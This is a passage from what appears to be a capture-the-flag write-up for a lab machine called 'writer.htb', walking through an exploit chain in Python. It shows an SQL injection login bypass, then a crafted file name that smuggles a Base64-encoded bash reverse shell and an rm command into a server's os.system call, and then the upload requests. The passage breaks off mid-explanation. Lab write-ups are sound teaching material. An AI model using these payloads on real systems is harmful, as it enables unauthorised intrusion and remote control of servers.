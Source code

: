 First, we need to have admin privileges. For that, we use a SQLi payload to bypass authentication. Notice that we use `requests.session` to keep the cookies in subsequent requests:

```python
s = requests.session()
s.post('http://10.10.11.101/administrative',
        data={'uname': "' or 1=1;-- -", 'password': 'asdf'})
```

Then we create the malicious file (as an empty file) with a crafted filename so that we can exploit a command injection vulnerability:

```python
rev = f'bash -i  >& /dev/tcp/{lhost}/{lport} 0>&1'
rm = 'rm /var/www/writer.htb/writer/static/img/fdsa*'
command = b64e(f'{rm}; {rev}'.encode()).decode()

filename = f'fdsa.jpg x;echo {command}|base64 -d|bash;'

with open(filename, 'wb') as f:
    f.write(b'')
```

The malicious command is composed of an `rm` command to clear some files in the images directory and a reverse shell payload encoded in Base64. Then the filename is made so that we do not break the `mv` command. Recall that the server is using this sentence:

```python
os.system("mv {} {}.jpg".format(local_filename, local_filename))
```

Furthermore, the filename must contain `".jpg"` as a substring because the server is doing this validation:

```python
image_url = request.form.get('image_url')
if ".jpg" in image_url:
    # ...
```

The next step is to upload the malicious file as a proper file using a POST request:

```python
s.post('http://10.10.11.101/dashboard/stories/add', data={
    'author': 'Me',
    'title': 'New story',
    'tagline': 'Tag',
    'image_url': '',
    'content': 'Nothing special'
}, files={
    'image': open(filename, 'rb')
})
```

And then, we have to upload again this file but using a URL that points to a local file instead. This way, we trigger the use of `urllib.requests.urlretrieve`, which has a different behaviour when retrieving a remote file and a local file. In the case of a local file, the filename is not modified, and thus the command injection is successful:
